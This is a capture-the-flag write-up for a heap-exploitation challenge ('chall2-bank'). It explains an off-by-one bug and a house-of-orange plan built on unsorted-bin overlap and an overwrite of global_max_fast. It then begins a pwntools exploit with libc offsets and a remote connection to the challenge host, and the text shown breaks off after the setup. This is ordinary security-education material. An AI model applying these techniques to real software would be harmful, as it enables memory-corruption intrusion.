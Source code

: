 > We learnt from our past mistakes. We now have cameras looking at `__malloc_hook` 24x7.
> 
> `nc 185.168.131.144 6000`

**Files provided**

 - [chall2-bank](files/chall2-bank)
 - [libc-2.24.so](files/libc-2.24.so)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The problem is here. When creating the back account, there is a off-by-one.

```c
read(0, v3->title, 0x11uLL);           // off by one
```

The insight is to change the size of unsorted bin and then create an overlap. However, only fastbin size is allowed, so we  must use this off-by-one to increase the size of a currently using fastbin chunk into a unsorted bin chunk, so when we free it it will be putted into unsorted bin. To create such situation, we need to manipulate the fastbin chunks first.

After creating such overlapped unsorted bin, we can leak program address and libc address. Care has to be taken about the check for the `flag` field in the struct, which should point to `0x60C0C748`. (e.i. do not change it)

Then we need to control the `rip`, but since the in `edit statement` function, `fgets` instead of `fread` is used, so there must be a null termination, so we can't rewrite return address in stack (we can only write 5 non-zero bytes but all addresses are 6 bytes).

```c
if ( v1 >= 0 && v1 <= 19 && accounts[v1] )
{
  n = strlen(accounts[v1]->statement);
  fgets(accounts[v1]->statement, n, stdin);
}
```

Thus, I used house of orange attack, which can be acheived by setting the `title_size` field to a big number by using overlap. But to make it simple, set `global_max_fast` to zero first.

exp:

```python
from pwn import *

g_local=True
context.log_level='debug'

if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./chall2-bank')#env={'LD_PRELOAD':'./libc.so.6'}
	UNSORTED_OFF = 0x3c4b78
	GLOBAL_MAX_FAST = 0x3C67F8
	IO_STR_FINISH = 0x3c37b0
	gdb.attach(sh)
else:
	sh = remote("185.168.131.144", 6000)
	e = ELF("./libc-2.24.so")
	UNSORTED_OFF = 0x397b58
	GLOBAL_MAX_FAST = 0x3997D0
	IO_STR_FINISH = 0x394510

def slp():
	if g_local:
		sleep(0.1)
	else:
		sleep(1)

def create(title, size, statement):
```